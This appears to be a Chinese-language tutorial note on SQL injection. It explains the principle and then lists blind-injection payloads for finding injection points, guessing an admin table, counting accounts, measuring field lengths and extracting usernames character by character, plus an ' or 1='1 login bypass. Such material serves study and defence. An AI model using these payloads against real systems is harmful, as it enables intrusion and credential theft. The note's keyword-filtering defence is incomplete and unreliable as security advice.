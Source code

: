 sql注入	端口	80

一、原理
<br>通过构建特殊的输入作为参数传入Web应用程序，执行SQL语句进而执行攻击者所要的操作，SQL注入就是利用表单输入，将自己的恶意数据传给服务器应用程序，利用应用程序的一些漏洞，来篡改sql语句，获取服务器权限的攻击。其主要原因是程序没有细致地过滤用户输入的数据，致使非法数据侵入系统。

二、重点防范：参数与变量（攻击者会调整攻击的参数）
<br>1.猜数据库中的表名、列名（看返回内容判断正确）
例从SQLserver内置变量user下手。基础类型：nvarchar。
<br>2.利用AND和OR运算规则造成后台脚本逻辑性错误。
注：①在后台验证代码上，账号密码的查询是要同一条查询语句一起查询。若分开查询：先查账号再查密码则没戏。
②看密码是否加密，一旦被MD5等其他方式加密，则只能看第一种方法。否则没戏。
<br>3.防御方法：过滤关键词
先定义一个函数，再写要过滤的关键词，如select，“”，from等

三、SQL注入语句特征（主要靠猜下手！）
<br>1.判断是否有注入点。
<br>; and 1=1 and 1=2
<br>2.猜表名如：如admin adminuser user pass password常用表名等。
<br>and 0<>(select count(*) from *)
<br>and 0<>(select count(*) from admin) ---判断是否存在admin这张表
<br>3.猜帐号数目：如果遇到0< 返回正确页面， 1<返回错误页面，说明帐号数目就是1个。
<br>and 0<(select count(*) from admin)
<br>and 1<(select count(*) from admin)

<br>4.猜字段名称。
<br>and 1=(select count(*) from admin where len(*)>0)--
<br>and 1=(select count(*) from admin where len（用户字段名称name)>0)
<br>and 1=(select count(*) from admin where len（密码字段名称password)>0)

5.各个字段的长度。
<br>and 1=(select count(*) from admin where len(*)>0)
<br>and 1=(select count(*) from admin where len(name)>6) 错误
<br>and 1=(select count(*) from admin where len(name)>5) 正确 长度是6
and 1=(select count(*) from admin where len(name)=6) 正确

6.最后猜解字符。

and 1=(select count(*) from admin where left(name,1)=a) ---猜解用户帐号的第一位
<br>and 1=(select count(*) from admin where left(name,2)=ab)---猜解用户帐号的第二位
<br>就这样一次加一个字符这样猜，猜到够你刚才猜出来的多少位了就对了，帐号就算出来了


以下为详细特征及实例：
# 服务器判断语句
select * from users where username = '$paramuser' and password = '$parampw';
# 参数如果被赋予如下的值
## $paramuser = ' or 1='1 
## $parampw = anything
select * from users where username = '' or 1='1' and password = 'anything';
### 结果就是，本条语句恒为真，就会窃取数据库用户信息。
### 所以很多情况下，服务器会将用户输入的数据进行过滤处理，比如or，and一些敏感字符串，空格。
